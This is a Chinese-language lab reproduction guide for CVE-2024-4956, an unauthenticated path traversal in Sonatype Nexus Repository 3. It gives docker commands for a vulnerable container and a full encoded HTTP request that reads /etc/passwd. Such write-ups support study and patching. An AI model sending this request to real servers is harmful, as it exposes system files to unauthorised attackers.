


# **Sonatype Nexus Repository 3 路径遍历漏洞(CVE-2024-4956)**

​	Sonatype Nexus Repository 是美国Sonatype公司的一款存储库管理器，用于存储和分发软件组件、构建工件和 Docker 容器。它支持多种包格式，与 CI/CD 工具集成，并提供安全性和合规性功能。

​	Sonatype NexusRepository 3.68.1之前版本存在安全漏洞，该漏洞源于存在路径遍历，允许未经身份验证的攻击者读取系统文件。

**影响版本**

Sonatype Nexus Repository 3 < 3.68.1

产品官网：https://help.sonatype.com/index.html?lang=en


参考链接

https://help.sonatype.com/en/download-archives---repository-manager-3.html

https://github.com/sonatype/nexus-public/releases?page=2


## 漏洞环境

执行如下命令启动一个nexus3:3.68.0：

```
docker pull sonatype/nexus3:3.68.0-java11
docker run -d -p 8081:8081 --name nexus sonatype/nexus3:3.68.0-java11
```

环境启动后，访问`http://your-ip:8081`


## 漏洞复现

发起如下http请求

```
GET /%2F%2F%2F..%2F%2F.%2F%2F..%2F%2F%2F..%2F%2F..%2F.%2F%65%74%63%2F%70%61%73%73%77%64 HTTP/1.1
Host: 192.168.160.128:8081
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.105 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: sidebar_collapsed=false; NX-ANTI-CSRF-TOKEN=0.4002459339420834; apt.uid=AP-YFGMCGUNNIFB-2-1717897114084-46859182.0.2.6b933aba-006b-4c12-b4b5-a0ddc2adfcf4; apt.sid=AP-YFGMCGUNNIFB-2-1717897114083-15232726
```

Connection: close


